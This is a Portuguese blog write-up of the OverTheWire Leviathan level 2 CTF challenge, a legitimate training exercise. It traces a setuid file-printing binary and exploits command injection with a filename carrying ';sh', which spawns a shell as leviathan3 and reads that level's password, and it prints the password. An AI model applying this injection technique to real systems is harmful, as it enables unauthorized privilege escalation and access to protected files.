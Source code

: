 ```yaml
---
layout: post
title: Level 2 - Command Injection [OverTheWire CTF – Leviathan]
date: 2016-11-06 18:44
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Leviathan OverTheWire]
---
```

<ul>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-leviathan-write-up">Level 0</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-leviathan-write-up" target="_blank" rel="noopener">Level 1</a></li>
</ul>

E agora é hora do Level 2.

<blockquote>
Obs: como já explico umas merdas básicas nos write-ups dos levels anteriores, vou evitar ficar repetindo para que serve um ltrace e só explicar o que for surgindo de novo.
</blockquote>

Logado no ssh como leviathan2, encontrei o arquivo <strong>printfile</strong> na minha home. Era o alvo da vez.

```leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

O executável faz juz ao nome e, pelo que é descrito, deve imprimir um arquivo na tela. Como em todos os nívels, o arquivo roda com permissões do user acima do meu, ou seja, leviathan3, então é óbvio que tentei fazer com ele lesse o arquivo que continha o password do próximo nível, pois leviathan3 pode, eu não.

```
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Why not? :( Essa porra tava aparentando ser simples demais.

```
leviathan2@melinda:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852d, 2, 0xffffd664, 0x8048600 unfinished ...
access(/etc/leviathan_pass/leviathan3, 4) = -1
puts(You cant have that file...You cant have that file...
) = 27
+++ exited (status 1) +++
```

A função access retorna -1 quando tento ler o pass de leviathan3, com certeza isso não significa coisa boa para o meu lado. Não conhecia a função <strong>access </strong>e o máximo que encontrei foi a <a href="https://linux.die.net/man/2/access" target="_blank" rel="noopener">man page</a>. Mas foi suficiente, a descrição do que ela fazia era simples e direta: checar as permissões reais do usuário que tenta acessar um arquivo.

Logo, o printfile ser executado com permissões de leviathan3 não me permite ler arquivos que pertecem ao mesmo porque a função acess sempre vai detectar que sou leviathan2 e me falar que não posso ter determinado arquivo.

Certo, será preciso enganar esse programa de alguma forma. Primeira coisa que fiz, foi criar um arquivo (no único lugar que o ctf nos dá permissão de escrita, em <strong>/tmp</strong>) e observar o comportamento de printfile quando passo como argumento algo que tenho permissões de acesso.

```
leviathan2@melinda:~$ ltrace ./printfile /tmp/0211/fuck
__libc_start_main(0x804852d, 2, 0xffffd674, 0x8048600 unfinished ...
access(/tmp/0211/fuck, 4) = 0
snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

A função access fica satisfeita e a string que é passada como argumento ganha um trato da função <a href="http://www.br-c.org/doku.php?id=snprintf">snprintf</a>. Então a string que vai para <a href="https://www.vivaolinux.com.br/dica/Usando-funcoes-do-sistema-em-C-com-system">system</a> fica sendo <em>/bin/cat nosso/argumento</em>. (Siga os links para entender sobre o que as funções fazem)

Nessa altura eu perdi algum tempo achando que a falha poderia estar na função access. Depois de algumas tentativas frustradas de tentar explora-la de alguma forma, decidi que ela não era o caminho.

Foi aí que prestei a atenção em <strong>snprintf</strong> e <strong>system</strong>.

```
snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck
```

Descrevendo de forma rústica: o programa, cegamente, pega o argumento, põe após <em>/bin/cat</em> e manda system executar. Vi então uma oportunidade para injetar comandos, afinal, system apenas executará a string e, se o programa não fizer uma validação em busca de um ponto e vírgula, por exemplo, teremos a capacidade de executar outro comando após o <em>/bin/cat</em>.

Decidi testar minha teoria criando um arquivo com o nome <strong>--help</strong>. Como não é uma prática nada comum criar arquivos com caracteres especiais (tipo ; e -), tive a ajuda disso <a href="http://www.tecmint.com/manage-linux-filenames-with-special-characters/">aqui</a> para lembrar de como cria-los.

```
leviathan2@melinda:/tmp/0211$ touch -- --help

leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile --help
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(--help, 4) = 0
snprintf(/bin/cat --help, 511, /bin/cat %s, --help) = 15
system(/bin/cat --helpUsage: /bin/cat [OPTION]... [FILE]...
Concatenate FILE(s), or standard input, to standard output.

-A, --show-all equivalent to -vET
-b, --number-non... cortei os bla bla da mensagem de help do cat
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

<a href="https://www.owasp.org/index.php/Command_Injection">Command injection</a> verificado com sucesso. É possível executar o que se quiser e tudo com privilégios de leviathan3. E o que mais se quer? SHEEEELLLLLL.

```
leviathan2@melinda:/tmp/0211$ touch ';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile ;sh
*** File Printer ***
Usage: ../../home/leviathan2/printfile filename
$ whoami
leviathan2
$
```

Algo saiu errado... Mas é claro que saiu! Por não pôr o ;sh entre aspas simples, ao invés de passar como argumento, acabei executando o comando <em>sh</em> após a execução de printfile.

Hora de tentar novamente (dessa vez com o ltrace para ver se tudo corria bem):

```
leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile ';sh'
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(;sh, 4) = 0
snprintf(/bin/cat ;sh, 511, /bin/cat %s, ;sh) = 12
system(/bin/cat ;sh

bash
bash
```

Ainda nada. Mas não foi dificil para perceber que ;sh agora estava virando argumento de cat e as coisas não saiam como esperado. Então criei um novo arquivo chamado <strong>fuck';sh'. </strong>Assim, cat iria ler o arquivo fuck e em seguida system iria executar sh.

```
leviathan2@melinda:/tmp/0211$ touch fuck';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck fuck;sh leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile fuck';sh'
fuck
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
cXVlcmZsYWc/
```

Esse foi divertido.
